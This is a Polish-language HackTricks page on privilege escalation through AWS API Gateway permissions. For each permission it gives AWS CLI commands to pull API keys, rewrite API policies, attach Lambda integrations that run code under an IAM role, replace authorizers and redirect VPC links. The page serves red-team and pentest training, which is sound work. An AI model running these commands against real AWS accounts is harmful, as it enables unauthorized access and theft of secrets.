 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Dzięki temu uprawnieniu możesz generować klucze API dla skonfigurowanych API (na region).
```bash
aws --region <region> apigateway create-api-key
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:GET`

Dzięki temu uprawnieniu możesz uzyskać wygenerowane klucze API skonfigurowanych API (na region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Dzięki tym uprawnieniom możliwe jest modyfikowanie polityki zasobów API, aby uzyskać dostęp do jego wywołania i nadużyć potencjalnego dostępu, jaki może mieć brama API (np. wywołując podatną lambdę).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencjalny wpływ:** Zazwyczaj nie będziesz w stanie bezpośrednio uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący z uprawnieniami `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` może **dodać nową integrację do istniejącego API Gateway REST API z funkcją Lambda, która ma przypisaną rolę IAM**. Atakujący może następnie **wywołać funkcję Lambda, aby wykonać dowolny kod i potencjalnie uzyskać dostęp do zasobów związanych z rolą IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do zasobów związanych z rolą IAM funkcji Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniami `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` może **zmodyfikować istniejącego autoryzatora API Gateway**, aby obejść kontrole bezpieczeństwa lub wykonać dowolny kod podczas składania żądań API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Ominięcie kontroli bezpieczeństwa, nieautoryzowany dostęp do zasobów API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniem `apigateway:UpdateVpcLink` może **zmodyfikować istniejące połączenie VPC, aby wskazywało na inny Load Balancer, potencjalnie przekierowując prywatny ruch API do nieautoryzowanych lub złośliwych zasobów**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do prywatnych zasobów API, przechwytywanie lub zakłócanie ruchu API.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
